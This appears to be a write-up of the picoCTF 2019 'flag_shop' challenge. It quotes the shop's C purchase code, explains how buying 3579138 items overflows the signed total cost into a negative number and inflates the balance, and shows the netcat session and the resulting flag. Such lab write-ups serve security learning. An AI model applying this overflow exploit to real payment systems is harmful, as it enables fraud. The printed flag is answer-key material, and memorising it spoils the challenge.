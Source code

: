 # flag_shop
First get the source. I like to use `curl | bat`
```bash
curl https://2019shell1.picoctf.com/static/23b8f90691073c4466b11fe2bae8d6ae/store.c | bat -l c
```
The vulnrability is in here.
```cpp
if (auction_choice == 1)
{
    printf("These knockoff Flags cost 900 each, enter desired quantity\n");

    int number_flags = 0;
    fflush(stdin);
    scanf("%d", &number_flags);
    if (number_flags > 0)
    {
        int total_cost = 0;
        total_cost = 900 * number_flags;
        printf("\nThe final cost is: %d\n", total_cost);
        if (total_cost <= account_balance)
        {
            account_balance = account_balance - total_cost;
            printf("\nYour current balance after transaction: %d\n\n", account_balance);
        }
        else
        {
            printf("Not enough funds to complete purchase\n");
        }
    }
}
```
By making `number_flags`, `900 * number_flags` will underflow, so `total_cost` is negitive and we increase `account_balance`.

To calculate the number of flags we want to buy use `((1<<31)//900)*1.5` in python. The `(1<<31)` is the max for a `int` 
(32 bits minus one for sign). Divide by 900 as the flags cost 900 each. Times by 1.5 so we add 0.5 of the `int` range.
This gives 3579138. By buying 3579138 fake flags, we can get enough money to afford the real one.
```bash
$ nc 2019shell1.picoctf.com 29250
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3579138

The final cost is: -1073743096

Your current balance after transaction: 1073744196

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_783740a8}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
3
```
flag: `picoCTF{m0n3y_bag5_783740a8}`
